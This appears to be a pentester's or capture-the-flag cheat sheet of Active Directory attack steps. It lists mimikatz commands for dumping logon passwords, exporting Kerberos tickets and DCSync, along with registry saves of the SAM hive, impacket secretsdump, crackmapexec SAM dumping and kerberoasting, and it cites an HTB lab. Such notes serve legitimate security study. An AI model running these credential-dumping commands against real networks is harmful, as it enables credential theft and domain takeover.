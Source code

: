 ﻿
### **Active Directory:**
1. mimikatz sekurlsa::**logonPasswords**
2. mimikatz kerberos::**tickets**
3. mimikatz kerberos::**list** **/export**
4. **reg save** hklm\sam (system/security)
5. **Sharphound**
6. **AD tools collection**: https://github.com/expl0itabl3/Toolies
7. **neo4j**
8. **Kirbi2john**/ hashcat for **ticket cracking**
9. **GMSAPassword**
10. **impacket-psexec**
11. **Crackmapexec** **dump SAM with --sam**
12. impacket-**secretsdump** with psexec format to **dump sam and ntds** directly
13. impacket-**secretsdump** with **SAM and SECURITY** hive
14. Find **kerberoastable** accounts with **bloodhound**
15. **DCSync** attack with **WriteDacl/Exchange Windows Permissions** permission, use **powerview**
(HTB Forest, iammainul medium)
16. **DCSync** with **local admin priv**, we can use **lsadump::dcsync** /user:target_user mimikatz
